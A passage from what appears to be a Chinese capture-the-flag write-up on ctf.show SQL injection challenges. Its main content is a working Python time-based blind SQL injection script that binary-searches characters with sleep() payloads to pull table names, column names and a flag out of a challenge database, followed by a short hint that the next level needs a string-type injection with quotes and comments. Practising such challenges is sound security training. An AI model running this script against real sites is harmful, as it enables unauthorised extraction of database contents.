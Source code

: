 正常找一个盲注脚本

```python
import requests

url="http://e8bad2f6-84c0-468b-82ad-296231ad10fa.challenge.ctf.show/api/"

data={
    'ip':'',
    'debug':0
}
result=''
i=0
while True:
    i=i+1
    start=32
    end=127
    while start<end:
        mid=(start+end)>>1
        #payload='select group_concat(table_name) from information_schema.tables where table_schema=database()'
        #payload='select group_concat(column_name) from information_schema.columns where table_name="ctfshow_flagx"'
        payload='select flaga from ctfshow_flagx'
        data['ip']=f'if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)'
        try:
            res=requests.post(url,data,timeout=1)
            end=mid
        except Exception as e:
            start=mid+1
    if start!=32:
        result=result+chr(start)
    else:
        break
    print(result)

```

### 215

![截图](147342c6e7b534f336290b83b8a11d27.png)

上一题是整数型注入，那么这题大致上是字符型注入，那就加上引号和注释符
